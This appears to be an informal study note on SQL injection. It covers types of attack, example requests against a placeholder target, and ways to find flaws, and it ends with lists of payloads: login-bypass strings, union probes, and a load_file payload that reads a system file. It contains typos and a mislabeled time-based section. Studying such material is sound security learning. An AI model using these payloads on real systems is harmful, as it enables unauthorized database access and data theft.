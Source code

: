SQL Injection

* Vulnerability that consists of an attacker interfering with the SQL queries that an application makes to a database.

Impact of SQL Injection Attacks

* Unauthorized access to sensitive data
	
	* Confidentiality - SQLi can be used to viwe sensitive information, such as application username and passwords
	* Integirity - SQLi can be used to alter data in the database
	* Availability - SQLi can be used to delete data in the database

Types of SQL Injection
	
	* In-Band(classic)
		* Error
		* Union
	* Inferential(Blind)
		* Boolean
		* Time
	* Out-of-Bnad

Error-Based SQLi 

	Example:
			Request:
			www.target.com/app.php?id='

			Response:	
			You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version ...

Union-Based SQLi 

	Example:
			Request:
			www.target.com/app.php?id=' UNION SELECT username, password FROM users--

			Response:	
			administrator
			carlos

Boolean-Based SQLi 

	Example:
			Request:
			www.target.com/app.php?id=1 and 1=2

			Response:	
			False

			Request:
			www.target.com/app.php?id=1 and 1=1

			Response:	
			True

Boolean-Based SQLi 

	Example:
			If the first character of the admin's hashed passwd is an 'a', wait for 10 seconds.
				-> response takes 10 second -> first letter is 'a'
				-> response doesn't takes 10 second -> first letter is not 'a'

Out-of-band-Based SQLi 

	Example 

		will discuss...

Finding  SQLi Vulnerabilities

	* Submit SQL-specific characters such as ' or ", and look errors or other anomalies
	* Submit Boolean conditons such as OR 1=1 and OR 1=2, and look for differences in the applications responcses
	* Submit Payloads designed to trigger time delays when executed within a SQL query, and look for diffrences in the time taken to respond
	* Submit OAST Payloads designed to trigger out-of-band network interaction when executed within a SQL query, and monitor for any resulting interactions

Automated Exploitation Tool

	sqlmap (https://github.com/sqlmapproject/sqlmap)

Special Thanks : ???

Payloads

	'
	"
	)'
	)"
	')
	")
	'))
	"))

Login Bypass

	' or 1=1 --
	' or '1'='1
	' or 1=1 --+
	admin' or 1=1;#
	admin' or 1=1 LIMIT 1;#
	admin' or 1=1 LIMIT 0,1;#

Union Based SQL

	order by 1
	order by 2
	order by 3
	' UNION SELECT NULL --
	' UNION SELECT NULL,NULL --
	' UNION SELECT 1,2,3 -- -
	' UNION SELECT 1,load_file('/etc/password'),3 --



